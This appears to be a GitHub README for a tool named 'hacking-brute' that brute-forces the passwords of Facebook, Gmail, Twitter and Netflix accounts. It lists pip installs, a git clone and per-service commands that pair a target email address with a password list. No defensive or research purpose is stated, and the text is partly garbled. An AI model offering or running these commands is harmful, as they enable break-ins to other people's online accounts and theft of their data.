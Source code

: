 # hacking-brute
Installation 


pip3 install proxylist

pip3 install mechanize

Ckraking Facebook and Gmail and twitter and Netflix 

Hacking Facebook, Twitter, gmail and Netflix 
In order for the script to work, you must first use the Python language No.  version 1

git clone https://github.com/hmida125/hacking-brute

Cd hacking-brute
Ls
python ckraking.py
_______________________________________________

Exemple:facebook


python ckraking.py -f emailadress -l passwordlist.txt

Exemple:gmail

python ckraking.py -g emailadress -l passwordlist.txt

Exemple:twitter

python ckraking.py -T emailadress -l passwordlist.txt

Exemple:Netflix 

python ckraking.py -n emailadress -l passwordlist.txt
